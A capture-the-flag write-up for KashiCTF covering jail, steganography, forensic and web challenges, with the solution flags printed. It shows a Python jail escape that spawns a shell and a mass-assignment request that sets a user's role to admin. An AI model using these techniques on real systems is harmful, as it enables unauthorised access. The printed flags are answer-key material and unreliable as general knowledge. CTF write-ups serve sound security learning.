 # Misc

### Easy Jail 

```
breakpoint()
import os; os.system("sh")
cd / && cat flag.txt
```

### Easy Jail 2 

```
breakpoint()
import os; os.system("sh")
cd / && cat flag.txt
```

### SNOWy Evening

`stegsnow -C -p "Aakash" poemm.txt`

output : https://pastebin.com/HVQfa14Z

https://mysterytoolbox.organisingchaos.com/Ciphers/cipher/Moo

`KashiCTF{Love_Hurts_5734b5f}`

### Self Destruct

``grep -hnra fLaG 0.img```

`KashiCTF{rm_rf_no_preserve_root_Am_1_Right??_No_Err0rs_4ll0wed_Th0}`

### Final Game?

Exporting the chess and we can use https://incoherency.co.uk/chess-steg/ to decrypt the data.

`KashiCTF{Will_This_Be_My_Last_Game_e94fab41}`

### Game 2 - Wait

We identify coordnets  within the program, and we can create a script to decrypt them to potentialy form an image as the flag.

```py
import matplotlib
matplotlib.use('Agg')

import matplotlib.pyplot as plt

coordinates = [
    (232,128),(232,80),(232,96),(232,112),(232,144),(232,160),(232,176),(248,112),
    (265,103),(281,87),(248,128),(264,144),(272,160),(280,176),(343,120),(327,128),
    (319,144),(319,160),(327,176),(343,176),(359,176),(367,160),(367,144),(367,128),
    (359,120),(375,168),(391,176),(343,120),(327,128),(327,176),(343,176),(359,176),
    (367,160),(367,144),(367,128),(359,120),(375,168),(391,176),(335,376),(335,360),
    (335,344),(335,328),(335,312),(335,296),(351,328),(367,320),(375,304),(375,376),
    (415,376),(415,360),(415,344),(415,328),(415,312),(415,296),(431,312),(447,304),
    (463,296),(367,360),(351,344),(471,104),(455,104),(439,104),(423,112),(423,128),
    (423,144),(439,144),(455,144),(471,144),(471,160),(463,177),(455,177),(439,177),
    (423,177),(513,89),(513,121),(513,137),(513,153),(513,169),(513,177),(513,105),
    (529,145),(545,145),(553,153),(553,169),(553,177),(185,291),(185,323),(185,339),
    (185,355),(185,371),(185,379),(185,307),(201,347),(217,347),(225,355),(225,371),
    (225,379),(977,291),(977,323),(977,339),(977,355),(977,371),(977,379),(977,307),
    (993,347),(1009,347),(1017,355),(1017,371),(1017,379),(593,177),(593,161),
    (593,145),(593,129),(593,89),(693,84),(677,84),(661,84),(645,84),(629,84),
    (629,100),(629,116),(629,132),(629,148),(629,164),(629,180),(645,180),
    (661,180),(677,180),(693,180),(149,284),(133,284),(117,284),(101,284),
    (85,284),(85,300),(85,316),(85,332),(85,348),(85,364),(85,380),(101,380),
    (117,380),(133,380),(149,380),(733,84),(749,84),(765,84),(781,84),(797,84),
    (765,100),(765,116),(765,132),(765,148),(765,164),(765,180),(853,180),
    (853,164),(853,148),(853,132),(853,116),(853,100),(853,84),(869,84),
    (885,84),(901,84),(917,84),(869,124),(885,124),(901,124),(45,260),
    (29,276),(37,292),(37,308),(29,324),(13,340),(29,353),(37,369),
    (37,385),(29,400),(45,416),(1062,257),(1076,270),(1068,286),(1068,302),
    (1076,318),(1092,334),(1077,350),(1069,366),(1069,382),(1077,398),
    (1061,414),(301,336),(301,352),(301,368),(301,376),(301,320),
    (301,304),(285,344),(269,344),(253,344),(261,336),(269,320),
    (285,304),(301,288),(525,336),(525,352),(525,368),(525,376),
    (565,376),(581,376),(597,376),(613,376),(629,376),(717,376),
    (701,360),(693,344),(685,328),(677,312),(669,296),(661,280),
    (733,362),(741,346),(749,330),(757,314),(765,298),(773,282),
    (797,322),(805,338),(821,354),(837,346),(845,330),(851,318),
    (819,366),(811,382),(891,318),(891,334),(891,350),(891,366),
    (899,382),(915,382),(931,382),(939,374),(939,358),(939,342),
    (939,326),(939,318),(525,320),(525,304),(509,344),(493,344),
    (477,344),(485,336),(493,320),(509,304),(525,288)
]

x_vals, y_vals = zip(*coordinates)

plt.figure(figsize=(10, 6))
plt.scatter(x_vals, y_vals, s=2, color="black")

plt.gca().invert_yaxis()

plt.axis("equal")

plt.title("Extracted Vector-Based Image")

plt.savefig("output.png", dpi=300)
```

`KashiCTF{Ch4kr4_Vyuh}`

# Forensic

### Memories Bring Back You
`grep -ra "KashiCTF" <file location>`

```
�]h��D�A7���0x\K��dk��K��dk��K��dk��K��dk���`�`HK��dk��
image_410.jpg�H�@�
                  �t
                    �t
                      2�������yGFILE|H8`�`H�
                                            �dk���5�]h���5�]h��q�a���0x\�
                                                                         �dk���
                                                                               �dk���
                                                                                     �dk���
image_414.jpg�H�@�.cnc2��������yGFILE0xH8`�`H6��dk���^h��_h������_h���~n*���0x\6��dk��6��dk��6��dk��6��dk���.
                   �.
image_418.jpg�H�@�;yN;yNJ��ְ����J�GFILE02��������yGFILE0;pH8`�`Hh2�dk���(bh���(bh��B+���0x\h2�dk��h2�dk��h2�dk��h2�dk��pimage_419.jpg�H�@p+�f+�f+2�&������yGFILE0\�H8`�`H
                                                 F�dk����ch����ch����y���0x\
                                                                            F�dk��
                                                                                  F�dk��
                                                                                        F�dk��
image_421.jpg�H�@�(x�(x�(2�]��X8not_hidden.txtKashiCTF{DF1R_g03555_Brrrr}
```


`KashiCTF{DF1R_g03555_Brrrr}`

### Corruption

using Autopsy we can search "KashiCTF" and we get the flag.


### Look at Me

Use silent eye and decrypt the image and get the flag.


# Web

### SuperFastAPI

http://kashictf.iitbhucybersec.in:<port>/redoc - Document of all the headers.

```
1. Create an account `http://kashictf.iitbhucybersec.in:<port>/register/test`

add 
```
{
"fname": "John",
"lname": "Doe",
"email": "john.doe@example.com",
"gender": "male"
}```

2. Update the role since it asks for admin when changing register to flag.

`http://kashictf.iitbhucybersec.in:<port>/update/test`

include

```
{
  "role": "admin"
}
```

3. Head to `http://kashictf.iitbhucybersec.in:<port>/flag/test`

`{"message":"KashiCTF{m455_4551gnm3n7_ftw_SksZ90TZu}"}`
